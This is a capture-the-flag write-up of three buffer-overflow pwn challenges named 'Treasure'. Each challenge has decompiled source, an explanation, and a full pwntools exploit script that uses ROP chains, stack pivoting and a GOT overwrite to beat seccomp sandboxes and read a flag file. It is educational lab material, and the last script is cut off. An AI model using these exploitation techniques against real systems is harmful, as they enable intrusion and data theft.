

This is a National CTF Challenge, another full sweep and kinda on edge final sadly.


# Pwn - Treasure

## Introduction 


## Source Code

There is no source code, but this is the result of ChatGPT beautifying the code from the decompiler

```C
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <dlfcn.h>
#include <fcntl.h>
#include <signal.h>
#include <seccomp.h>

__attribute__((constructor(101)))
static void sub_12E9(void) {
    setvbuf(stdin,  NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    alarm(1);  // same as decompiled

    int fd = open("./flag", O_RDONLY);
    if (fd < 0) {
        puts("hmmm");
        _exit(1);
    }
    if (fd != 3) {
        if (dup2(fd, 3) < 0) {
            puts("hmmm");
            _exit(1);
        }
        close(fd);
    }

    void *p = dlsym(RTLD_NEXT, "puts");
    printf("leaked: %p\n", p);
}

__attribute__((constructor(65535)))
static void sub_17C9(void) {
    scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL); // default: kill
    if (!ctx) {
        puts("hmm");
        _exit(1);
    }

    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 1,
                     SCMP_A0(SCMP_CMP_EQ, 0));

    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 1,
                     SCMP_A0(SCMP_CMP_EQ, 1));
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 1,
                     SCMP_A0(SCMP_CMP_EQ, 2));

    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(sendfile), 2,
                     SCMP_A0(SCMP_CMP_EQ, 1),  // out_fd
                     SCMP_A1(SCMP_CMP_EQ, 3)); // in_fd

    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(close), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(rt_sigreturn), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(nanosleep), 0);

    if (seccomp_load(ctx) != 0) {
        puts("hmmm");
        _exit(1);
    }
    seccomp_release(ctx);
}

int main(void) {
    unsigned char buf[64];
    puts("where is the treasure?");
    ssize_t n = read(0, buf, 0xA0u);
    return 0;
}
```

## Summary

Take the libc `puts` leak and find the libc version using libc.rip. After that just bof and use rop `sendfile` to get the content of the file.

## Solution

Given a binary treasure file, when I decompile it, I see a `BOF` and a function that opens the file flag to fd 3 and leaks libc `puts` address. Similarly, there are seccomp rules in this case.
```c
int sub_12E9(void) {
    setvbuf(stdin,  NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    alarm(1);  // same as decompiled

    int fd = open("./flag", O_RDONLY);
    if (fd < 0) {
        puts("hmmm");
        _exit(1);
    }
    if (fd != 3) {
        if (dup2(fd, 3) < 0) {
            puts("hmmm");
            _exit(1);
        }
        close(fd);
    }

    void *p = dlsym(RTLD_NEXT, "puts");
    printf("leaked: %p\n", p);
}
```


To solve this problem, I used `sendfile`, where args 1 = to stdout, args 2 = fd flag, args 3 = NULL, and args 4 = size.

However, in this problem, libc is not provided, so you have to find it manually using libc.rip.


For the libc version i chose, I used `libc6_2.38-1ubuntu6.3_amd64`.
So now, just set the BOF at offset = 64 + 8 = 72, then run our libc `sendfile` rop chain.


### Solve Script

```python
#!/usr/bin/env python3
from ctypes import CDLL
from subprocess import Popen, PIPE
from pwncli import *
import sys
# =========================================================
#                          SETUP                         
# =========================================================
exe = './treasure_patched'
elf = context.binary = ELF(exe, checksec=False)
libc = elf.libc
# libc = './libc.so.6'
# libc = ELF(libc, checksec=False)
# libc = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]


gdbscript = '''
init-pwndbg
# set architecture aarch64
# target remote :5000
b *main+55
c
'''.format(**locals())

def is_ipv4(s):
    return len(s.split('.')) == 4 and all(p.isdigit() and 0 <= int(p) <= 255 for p in s.split('.'))

def is_domain(s):
    return all(part.isalnum() or part == '-' for part in s.split('.'))

def is_port(s):
    return s.isdigit() and 0 <= int(s) <= 65535

def use_ip():
    return len(sys.argv) >= 3 and (is_ipv4(sys.argv[1]) or is_domain(sys.argv[1])) and is_port(sys.argv[2])

def initialize(argv=[]):
    global pid
    update_checksec() 
    if args.QEMU:
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(1)
        pid = process(["pgrep", "-fx", "/app/run"]).recvall().strip().decode()
        return p
    elif args.REMOTE:
        context.log_level = 'info'
        host, port = ("143.198.215.203", 20037) if len(sys.argv) < 4 else (sys.argv[2], int(sys.argv[3]))
        return remote(host, port, ssl=False)
    elif use_ip():
        context.log_level = 'info'
        host, port = str(sys.argv[1]), int(sys.argv[2])
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    else:
        return process([exe] + argv)

def execute(cmds, verbose=False):
    cmds = cmds if isinstance(cmds, list) else cmds.split()
    if verbose:
        sys.stdout.write("\n")
        sys.stdout.flush()
        p = Popen(cmds, stdout=PIPE, stderr=sys.stdout, text=True, bufsize=1)
        buf = []
        for line in p.stdout:
            sys.stdout.write(line)   # live output (colors intact)
            sys.stdout.flush()
            buf.append(line)         # keep copy
        p.wait()
        return "".join(buf)
    else:
        p = Popen(cmds, stdout=PIPE, stderr=PIPE, text=True)
        out, err = p.communicate()
        return out if out else err

def debug():
    global gdbscript, pid
    if ((not args.REMOTE and not args.GDB) or (args.QEMU and args.GDB)) and not (use_ip()):
        if args.QEMU:
            gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
            for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
                gdb_args.extend(["-ex", cmd])
            Popen(gdb_args)
        elif args.DOCKER:   
            attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe=exe)
        else:
            attach(io, gdbscript=gdbscript)

def update_checksec():
    marker = "CHECKSEC"
    fn = sys.modules[__name__].__file__
    with open(fn, "r+", encoding="utf-8") as f:
        src = f.read()
        i = src.find(marker)
        i = src.find(marker, i + 1)
        i = src.find("\n", i)
        i = src.find("\n", i + 1)
        start = i + 1
        end = src.find("\n", start)
        if end == -1: 
            end = len(src)
        if src[start:end].strip() == "":
            output = execute("checksec --file {}".format(exe))
            commented = "".join(("# " + line + "\n") if line.strip() else "#" for line in output.splitlines())
            src = src[:start] + commented + src[end:]
            f.seek(0); f.write(src); f.truncate()

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
se      = lambda data               :str(data).encode()
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))

# =========================================================
#                         CHECKSEC
# =========================================================
# [*] '/home/kali/Windows/Wreck IT 6.0 CTF/treasure/treasure'
#     Arch:       amd64-64-little
#     RELRO:      Full RELRO
#     Stack:      No canary found
#     NX:         NX enabled
#     PIE:        PIE enabled
#     SHSTK:      Enabled
#     IBT:        Enabled
#     Stripped:   No

# =========================================================
#                         EXPLOITS
# =========================================================

def exploit(x):
    global io
    io = initialize()
    with log.progress("Leak Addresses and sendfile"), context.silent:
        ru(": ")
        puts = int(rl(),16) # leak puts address find with libc.rip
        libc.address = puts - libc.sym.puts 

        rop = ROP(libc)
        rop.raw(rop.ret.address) # stack alignment for x64
        rop.sendfile(1, 3, 0, 0xff) # sendfile(out_fd, in_fd, offset, count)

        offset = 64 
        payload = flat({offset:[0, rop.chain()]}, filler=b"\x00")
        debug()
        sla("?\n", payload)
    leak("Libc puts", hex(puts))
    leak("Libc base address", hex(libc.address)) if libc.address else None
    io.interactive() if not args.NOINTERACT else None

if __name__ == '__main__':
    global io
    for i in range(1):
        try:
            exploit(i)
        except Exception as e:
            print(f"Error occurred: {e}")
        io.close()
```

### Flag

`WRECKIT60{y0u_g0t_th3_tr34sur3!!}`

# Pwn - Treasure Revenge

## Introduction 


## Source Code

There is no source code, but this is the result of ChatGPT beautifying the code from the decompiler

```C
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/sendfile.h>
#include <signal.h>
#include <seccomp.h>


int sub_40138F(void)
{
    // Unbuffered stdio & 1-second alarm, then open "./flag".
    // If fd != 3, dup2(fd, 3) and close the original.
    setvbuf(stdin,  NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    alarm(1U);

    int fd = open("./flag", O_RDONLY);
    if (fd < 0)
        _exit(1);

    if (fd != 3) {
        dup2(fd, 3);
        return close(fd);
    }
    return fd; // == 3
}

long sub_40144D(void)
{
    scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
    if (!ctx)
        _exit(1);

    // Allowed syscalls (decompile used 2147418112 == SCMP_ACT_ALLOW)
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read),        0); // 0
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write),       0); // 1
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(sendfile),    0); // 40
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(close),       0); // 3
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit),        0); // 60
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group),  0); // 231
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(rt_sigreturn),0); // 15
    seccomp_rule_add(ctx, SCMP_ACT_KILL, 33,  0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL, 2,   0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL, 257, 0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL, 437, 0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL, 10,  0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL, 9,   0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL, 25,  0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL, 59,  0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL, 322, 0);

    if (seccomp_load(ctx) != 0)
        _exit(1);

    seccomp_release(ctx);
    return 0;
}

int main(int argc, const char **argv, const char **envp)
{
    sub_40138F();
    puts("where is the treasure?");
    unsigned char buf[64];
    read(0, buf, 0x200u);

    return 0;
}

```

## Summary

There is mov gadgets rbp to register. Use the gadgets, read to bss after that just use `.bss` as the place for using gadgets and call `sendfile`.

## Solution

Given a file, treasure_revenge, when decompiled, it's more or less the same as the previous problem, except this time there's no PIE, no libc address leak, and a `sendfile` function.

To solve this problem, you need to find the gadgets that control rdi, rsi, rdx, and rcx. Then, call `sendfile` in the binary.        


What I do is call `read` to `.bss` then overflow and use gadget mov edi, [rbp+0x20], mov rsi, rbp, mov rdx, [rbp+0x10], mov rcx, [rbp+0x18], then finally call `sendfile`.


### Solve Script

```python
#!/usr/bin/env python3
from ctypes import CDLL
from subprocess import Popen, PIPE
from pwncli import *
import sys
# =========================================================
#                          SETUP                         
# =========================================================
exe = './treasure_revenge'
elf = context.binary = ELF(exe, checksec=False)
libc = elf.libc
# libc = './libc.so.6'
# libc = ELF(libc, checksec=False)
# libc = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]


gdbscript = '''
init-pwndbg
# set architecture aarch64
# target remote :5000
b *main+55
b *read+26
c
'''.format(**locals())

def is_ipv4(s):
    return len(s.split('.')) == 4 and all(p.isdigit() and 0 <= int(p) <= 255 for p in s.split('.'))

def is_domain(s):
    return all(part.isalnum() or part == '-' for part in s.split('.'))

def is_port(s):
    return s.isdigit() and 0 <= int(s) <= 65535

def use_ip():
    return len(sys.argv) >= 3 and (is_ipv4(sys.argv[1]) or is_domain(sys.argv[1])) and is_port(sys.argv[2])

def initialize(argv=[]):
    global pid
    update_checksec() 
    if args.QEMU:
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(1)
        pid = process(["pgrep", "-fx", "/app/run"]).recvall().strip().decode()
        return p
    elif args.REMOTE:
        context.log_level = 'info'
        host, port = ("143.198.215.203", 20038) if len(sys.argv) < 4 else (sys.argv[2], int(sys.argv[3]))
        return remote(host, port, ssl=False)
    elif use_ip():
        context.log_level = 'info'
        host, port = str(sys.argv[1]), int(sys.argv[2])
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    else:
        return process([exe] + argv)

def execute(cmds, verbose=False):
    cmds = cmds if isinstance(cmds, list) else cmds.split()
    if verbose:
        sys.stdout.write("\n")
        sys.stdout.flush()
        p = Popen(cmds, stdout=PIPE, stderr=sys.stdout, text=True, bufsize=1)
        buf = []
        for line in p.stdout:
            sys.stdout.write(line)   # live output (colors intact)
            sys.stdout.flush()
            buf.append(line)         # keep copy
        p.wait()
        return "".join(buf)
    else:
        p = Popen(cmds, stdout=PIPE, stderr=PIPE, text=True)
        out, err = p.communicate()
        return out if out else err

def debug():
    global gdbscript, pid
    if ((not args.REMOTE and not args.GDB) or (args.QEMU and args.GDB)) and not (use_ip()):
        if args.QEMU:
            gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
            for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
                gdb_args.extend(["-ex", cmd])
            Popen(gdb_args)
        elif args.DOCKER:   
            attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe=exe)
        else:
            attach(io, gdbscript=gdbscript)

def update_checksec():
    marker = "CHECKSEC"
    fn = sys.modules[__name__].__file__
    with open(fn, "r+", encoding="utf-8") as f:
        src = f.read()
        i = src.find(marker)
        i = src.find(marker, i + 1)
        i = src.find("\n", i)
        i = src.find("\n", i + 1)
        start = i + 1
        end = src.find("\n", start)
        if end == -1: 
            end = len(src)
        if src[start:end].strip() == "":
            output = execute("checksec --file {}".format(exe))
            commented = "".join(("# " + line + "\n") if line.strip() else "#" for line in output.splitlines())
            src = src[:start] + commented + src[end:]
            f.seek(0); f.write(src); f.truncate()

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
se      = lambda data               :str(data).encode()
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))

# =========================================================
#                         CHECKSEC
# =========================================================
# [*] '/home/kali/Windows/Wreck IT 6.0 CTF/treasure_revenge/treasure_revenge'
#     Arch:       amd64-64-little
#     RELRO:      Full RELRO
#     Stack:      No canary found
#     NX:         NX enabled
#     PIE:        No PIE (0x400000)
#     SHSTK:      Enabled
#     IBT:        Enabled
#     Stripped:   No

# =========================================================
#                         EXPLOITS
# =========================================================
# def menu(choice):
#     sla("> ", se(choice))

# Utility function here...

def exploit(x):
    global io
    io = initialize()
    with log.progress("Get gadgets and making ropchain"), context.silent:
        mov_edi_rbp20 = nsa(elf, "mov edi, dword ptr [rbp + 0x20] ; ret")
        mov_rsi_rbp = nsa(elf, "mov rsi, rbp ; ret")
        mov_rdx_rbp10 = nsa(elf, "mov rdx, qword ptr [rbp + 0x10] ; mov rcx, qword ptr [rbp + 0x18] ; ret")

        rop = ROP(elf)
        rop.raw(mov_rsi_rbp)
        rop.read() # read(0, rbp, 0x100)
        rop.raw(mov_edi_rbp20)
        rop.raw(mov_rdx_rbp10)
        rop.rbp = 3
        rop.raw(mov_rsi_rbp)
        rop.sendfile() # sendfile(1, target, 0, 0x1000)
    leak("mov edi, dword ptr [rbp + 0x20] ; ret", hex(mov_edi_rbp20))
    leak("mov rsi, rbp ; ret", hex(mov_rsi_rbp))
    leak("mov rdx, qword ptr [rbp + 0x10] ; mov rcx, qword ptr [rbp + 0x18] ; ret", hex(mov_rdx_rbp10))

    with log.progress("Sending payload & call sendfile"), context.silent:
        offset = 64
        target = elf.bss()
        payload = flat({offset:[target, rop.chain()]}, filler=b"\x00")
        sla("?\n", payload)
        debug()
        sleep(0.1)    
        s(p64(0)*2 + p64(0) + p64(0x100) + p64(0x1)) # rdx = 0, rcx = 0x100, edi = 1

    io.interactive() if not args.NOINTERACT else None

if __name__ == '__main__':
    global io
    for i in range(1):
        try:
            exploit(i)
        except Exception as e:
            print(f"Error occurred: {e}")
        io.close()
```

### Flag

`WRECKIT60{y0u_h4v3_t0_pl4y_w1th_th3_g4dg3tss}`

# Pwn - Ultimate Treasure Revenge

## Introduction 


## Source Code

There is no source code, but this is the result of ChatGPT beautifying the code from the decompiler

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdlib.h>
#include <stdint.h>
#include <seccomp.h>


__attribute__((constructor(101)))
static void early_ctor(void) {
    setvbuf(stdin,  NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    alarm(1);

    int fd = open("./flag", O_RDONLY);
    if (fd < 0) {
        _exit(1);
    }
    if (fd != 3) {
        dup2(fd, 3);
        close(fd);
    }
}

static int64_t sandbox(void) {
    scmp_filter_ctx ctx = seccomp_init(0); // default action: SCMP_ACT_KILL (0)
    if (!ctx) _exit(1);

    const uint32_t ALLOW = 2147418112U;

    seccomp_rule_add(ctx, ALLOW, 0,   0);  // read
    seccomp_rule_add(ctx, ALLOW, 1,   0);  // write
    seccomp_rule_add(ctx, ALLOW, 40,  0);  // sendfile
    seccomp_rule_add(ctx, ALLOW, 3,   0);  // close
    seccomp_rule_add(ctx, ALLOW, 60,  0);  // exit
    seccomp_rule_add(ctx, ALLOW, 231, 0);  // exit_group
    seccomp_rule_add(ctx, ALLOW, 15,  0);  // rt_sigreturn

    seccomp_rule_add(ctx, 0, 33,  0);  // dup2
    seccomp_rule_add(ctx, 0, 2,   0);  // open
    seccomp_rule_add(ctx, 0, 257, 0);  // openat
    seccomp_rule_add(ctx, 0, 437, 0);  // close_range
    seccomp_rule_add(ctx, 0, 10,  0);  // mprotect
    seccomp_rule_add(ctx, 0, 9,   0);  // mmap
    seccomp_rule_add(ctx, 0, 25,  0);  // mremap
    seccomp_rule_add(ctx, 0, 59,  0);  // execve
    seccomp_rule_add(ctx, 0, 322, 0);  // execveat

    if (seccomp_load(ctx) != 0) {
        _exit(1);
    }
    seccomp_release(ctx);
    return 0;
}

__attribute__((constructor(102)))
static void late_ctor(void) {
    (void)sandbox();
}

// --- main program with the intended overflow
int main(int argc, char **argv, char **envp) {
    unsigned char buf[64];
    puts("where is the treasure?");
    read(0, buf, 0x200u);
    return 0;
}
```

## Summary

There is 2 solution, overwrite the got or srop to `sendfile`. For my solution overwrite the got `seccomp_release` to ret then use `sandbox+581` and `sandbox+585` after that control rdi to 3, call read, then use puts to leak.

## Solution

Given a file binary ultimate_treasure_revenge, when decompiled, is more or less the same as the previous version, only an upgrade, where we don't have gadgets to control registers. However, in this case, when I look closely, there are functions `early_ctor+180` and `sandbox+585` that move eax/rax to edi/rdi and then call the binary function.


So, to use it, we need to overwrite got between `close` and `seccomp_release`.

When I tried pivoting to write to got `close`, it more or less had to overwrite got stdout, so it couldn't be used.


For the seccomp_release rip before getting stdout so it can be used.


First i read to future rip from future rip got stdout - 8 (sorry for the complex explanation :v) to pivot read got seccomp_release, then overwrite rip from when read got `seccomp_release`.


After overwriting got `seccomp_release` to ret, I changed the rsp pivot to a higher bss location to avoid touching other addresses when calling read again.
Then, just `read` and `puts` using the `sandbox+585` gadget.

First, I changed the `.bss` pointer to the next address and called read to control rax. Then, I used the `sandbox+585` gadget to get rdi=3 and called read.


After that, pop rbp to the address containing our read result and use the sandbox `sandbox + 581` to move ebp to eax, then eax to edi. Finally, just call `puts` and get the read result.


### Solve Script

```python
#!/usr/bin/env python3
from ctypes import CDLL
from subprocess import Popen, PIPE
from pwncli import *
import sys
# =========================================================
#                          SETUP                         
# =========================================================
exe = 'ultimate_treasure_revenge_patched'
elf = context.binary = ELF(exe, checksec=False)
libc = elf.libc
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]


gdbscript = '''
init-pwndbg
# set architecture aarch64
# target remote :5000
b *main+55
b *read+25
c
'''.format(**locals())

def is_ipv4(s):
    return len(s.split('.')) == 4 and all(p.isdigit() and 0 <= int(p) <= 255 for p in s.split('.'))

def is_domain(s):
    return all(part.isalnum() or part == '-' for part in s.split('.'))

def is_port(s):
    return s.isdigit() and 0 <= int(s) <= 65535

def use_ip():
    return len(sys.argv) >= 3 and (is_ipv4(sys.argv[1]) or is_domain(sys.argv[1])) and is_port(sys.argv[2])

def initialize(argv=[]):
    global pid
    update_checksec() 
    if args.QEMU:
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(1)
        pid = process(["pgrep", "-fx", "/app/run"]).recvall().strip().decode()
        return p
    elif args.REMOTE:
        context.log_level = 'info'
        host, port = ("143.198.215.203", 20039) if len(sys.argv) < 4 else (sys.argv[2], int(sys.argv[3]))
        return remote(host, port, ssl=False)
    elif use_ip():
        context.log_level = 'info'
        host, port = str(sys.argv[1]), int(sys.argv[2])
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    else:
        return process([exe] + argv)

def execute(cmds, verbose=False):
    cmds = cmds if isinstance(cmds, list) else cmds.split()
    if verbose:
        sys.stdout.write("\n")
        sys.stdout.flush()
        p = Popen(cmds, stdout=PIPE, stderr=sys.stdout, text=True, bufsize=1)
        buf = []
        for line in p.stdout:
            sys.stdout.write(line)   # live output (colors intact)
            sys.stdout.flush()
            buf.append(line)         # keep copy
        p.wait()
        return "".join(buf)
    else:
        p = Popen(cmds, stdout=PIPE, stderr=PIPE, text=True)
        out, err = p.communicate()
        return out if out else err

def debug():
    global gdbscript, pid
    if ((not args.REMOTE and not args.GDB) or (args.QEMU and args.GDB)) and not (use_ip()):
        if args.QEMU:
            gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
            for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
                gdb_args.extend(["-ex", cmd])
            Popen(gdb_args)
        elif args.DOCKER:   
            attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe=exe)
        else:
            attach(io, gdbscript=gdbscript)

def update_checksec():
    marker = "CHECKSEC"
    fn = sys.modules[__name__].__file__
    with open(fn, "r+", encoding="utf-8") as f:
        src = f.read()
        i = src.find(marker)
        i = src.find(marker, i + 1)
        i = src.find("\n", i)
        i = src.find("\n", i + 1)
        start = i + 1
        end = src.find("\n", start)
        if end == -1: 
            end = len(src)
        if src[start:end].strip() == "":
            output = execute("checksec --file {}".format(exe))
            commented = "".join(("# " + line + "\n") if line.strip() else "#" for line in output.splitlines())
            src = src[:start] + commented + src[end:]
            f.seek(0); f.write(src); f.truncate()

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
se      = lambda data               :str(data).encode()
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))

# =========================================================
#                         CHECKSEC
# =========================================================
# [*] '/home/kali/Windows/Wreck IT 6.0 CTF/ultimate_treasure_revenge/ultimate_treasure_revenge_patched'
#     Arch:       amd64-64-little
#     RELRO:      Partial RELRO
#     Stack:      No canary found
#     NX:         NX enabled
#     PIE:        No PIE (0x3fe000)
#     RUNPATH:    b'.'
#     SHSTK:      Enabled
#     IBT:        Enabled
#     Stripped:   No

# =========================================================
#                         EXPLOITS
# =========================================================

def pivot_target(addr):
    return p64(addr + 0x40) + p64(elf.sym["main"] + 27)

def exploit(x):
    global io
    io = initialize()
    with log.progress("Pivot to the future rip of got stdout - 0x10"), context.silent:
        mov_edi_eax = elf.sym["sandbox"] + 585

        rop = ROP(elf)
        offset = 64
        payload = flat({offset:[pivot_target(elf.bss(0x38) - 8)]}, filler=b"\x00")
        sla("?\n", payload)
        sleep(0.1)

    with log.progress("Pivot to future rip of got seccomp_release then pivot again to got seccomp_release"), context.silent:
        payload = flat({0:[pivot_target(elf.got["seccomp_release"])], # rip of read when rsi = got stdout - 0x10
                        offset:[pivot_target(elf.got["stdout"] - 0x10)]}, filler=b"\x00")
        s(payload)
        sleep(0.1)


    with log.progress("Prepare future rip to pivot far away from got then change seccomp_release->ret"), context.silent:
        s(pivot_target(elf.bss(0xc0))) # rip of read when rsi = got seccomp_release (just for reset and easier bof later)
        sleep(0.1)
        s(p64(rop.ret.address)) # seccomp_release -> ret
        sleep(0.1)
    with log.progress("Final pivot to ropchain"), context.silent:
